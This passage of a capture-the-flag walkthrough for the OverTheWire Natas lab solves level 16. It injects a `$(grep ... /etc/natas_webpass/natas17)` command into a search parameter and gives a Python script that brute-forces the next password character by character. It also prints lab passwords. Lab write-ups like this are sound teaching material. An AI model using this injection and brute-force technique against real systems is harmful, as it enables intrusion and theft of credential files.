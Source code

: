 Once that's done we get the password.

```
hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
```

# 16

```
Username: natas16
URL:      http://natas16.natas.labs.overthewire.org
```

So this one is like natas10 except it filters out even more characters, so now our solution finally doesn't work. But Bash also allows us to execute commands inside a command using `$(cmd)`, which is not blocked in the website. So if we did something like `$(echo hello) helium`, it will end up being`hello helium`and return no result.

Looks like we need to bruteforce again... so the command we will use is `(grep -E ^(pass).* /etc/natas_webpass/natas17)helium`. This lets us run a regex expression that runs successfully if the starting characters, `(pass)`, match the start of the password. If it does, it will return a blank message, but wrong characters will just return the words with helium.

I used the same python code from the previous level, but with some changes.

> ```python
> import requests
> target = 'http://natas16.natas.labs.overthewire.org'
> charset_0 = (
>     '0123456789' +
>     'abcdefghijklmnopqrstuvwxyz' +
>     'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
> )
> webauth = ('natas16','hPkjKYviLQctEW33QmuXL6eDVfMW4sGo')
> charset_1 = ''
> 
> for c in charset_0:
>     username = ('$(grep ' + c +' /etc/natas_webpass/natas17)helium')
>     r = requests.get(target,
>         auth=webauth,
>         params={"needle": username}
>     )
>     if "helium" not in r.text:
>         charset_1+=c
>         print ('CSET: ' + charset_1.ljust(32, '*'))
> 
> password = ""
> while len(password) != 32:
>     for c in charset_1:
>         t = password + c
>         username = ('$(grep -E ^' + t +'.* /etc/natas_webpass/natas17)helium')
>         r = requests.get(target,
>             auth=webauth,
>             params={"needle": username}
>         )
>         if "helium" not in r.text:
>             print ('PASS: ' + t.ljust(32, '*'))
>             password = t
>             break
> ```
